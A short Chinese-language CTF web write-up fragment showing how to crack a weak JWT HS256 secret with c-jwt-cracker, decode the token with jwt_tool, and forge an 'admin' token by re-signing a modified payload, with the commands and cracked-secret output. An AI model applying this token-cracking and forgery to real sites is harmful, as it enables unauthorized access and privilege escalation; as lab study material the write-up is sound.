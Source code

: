 

使用`c-jwt-cracker`工具可以对用于计算`signature`进行爆破 (只能爆破弱密钥)

使用`jwt_tool`可以对`JWT token`进行解码

```
┌──(kali㉿kali)-[~/Desktop/c-jwt-cracker/c-jwt-cracker]
└─$ ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjIyMiJ9.3H1j76lr69MYIZ48VY1Jdrjpw-GZdPSSbEwpE0gCR8o   
Secret is "1Kun"

python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.03HaDCk7C7vfJw9Wa-yDflSMoeV_1jpCaTILcgJXpZY

```

![image-20221025193722302](/images/ctfweb-others/image-20221025193722302.png)

https://jwt.io/

假如某个网站要求认证`admin`才能访问, 这里拿到爆破所得的`secret_key`, 并在解密后将`payload`中的`username`字段的值改为`admin`

从而计算得到一个新的`JWT token`
